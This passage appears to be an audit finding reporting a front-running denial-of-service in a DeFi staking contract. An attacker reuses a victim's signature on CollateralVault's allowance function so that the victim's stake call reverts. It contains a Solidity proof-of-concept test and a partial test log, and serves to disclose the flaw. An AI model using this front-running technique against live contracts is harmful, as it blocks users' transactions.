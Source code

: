 Step 1: Victim call the stake function and provide the signature in the transaction

Step 2: Attacker monitors the mempool and front-run the user transaction by calling CollateralVault\_contract.modifyCollateralizableTokenAllowanceWithSignature

So the user's transaction will revert

Test code to show: \`\`\`solidity function testStake() public {

```
    uint256 amount &#x3D; 100*10**6; 

    bytes memory signature &#x3D; CreateSignature();
   
    vm.startPrank(victim);
    console.log(&quot;Victim stake to TimeBasedCollateralPool&quot;);
    TimeBasedCollateralPool(TimeBasedCollateralPool_contract).stake(IERC20(USDC), amount, signature); 
    vm.stopPrank(); 
   
} 

function testStake_hacked() public {       
   
    uint256 amount &#x3D; 100*10**6;         
    bytes memory signature &#x3D; CreateSignature();
    console.log(&quot;Attacker front-run the victim by calling modifyCollateralizableTokenAllowanceWithSignature of CollateralVault_contract&quot;);
    uint256 _allowanceAdjustment &#x3D; 100*10**6; 
    
    CollateralVault(CollateralVault_contract).modifyCollateralizableTokenAllowanceWithSignature(victim, TimeBasedCollateralPool_contract, USDC, int256(_allowanceAdjustment), signature);

    testStake();         
   
}  
```

\`\`\`

Explanation:

The test case testStake() demonstrates the normal use-case when the victim call stake function to stake to the TimeBasedCollateralPool. This test case passes.

But in the testStake\_hacked(), the attacker front-run the victim's transaction by calling modifyCollateralizableTokenAllowanceWithSignature. Then the victim's transaction reverts.

Test Logs: Log file:

https://gist.github.com/Perseverancesuccess2021/5dd1ab799db0034872a7a436614092b8#file-teststake\_241028\_2120-log

\`\`\`Log No files changed, compilation skipped

Ran 2 tests for test/testTimeBasedCollateralPool.sol:testTimeBasedCollateralPool \[PASS] testStake() (gas: 311392) Logs: Setup Precondition for the test case Deploying TimeBasedCollateralPool Proxy contract that is VisibleBeaconProxy points to TimeBasedCollateralPool\_beacon Initialize TimeBasedCollateralPool contract Approve the TimeBasedCollateralPool\_contract as the collateralizable contract Balance of USDC before depositing: 10000000000 Approve the CollateralVault\_contract to spend USDC to deposit USDC Step: Deposit USDC to CollateralVault for the victim Victim stake to TimeBasedCollateralPool
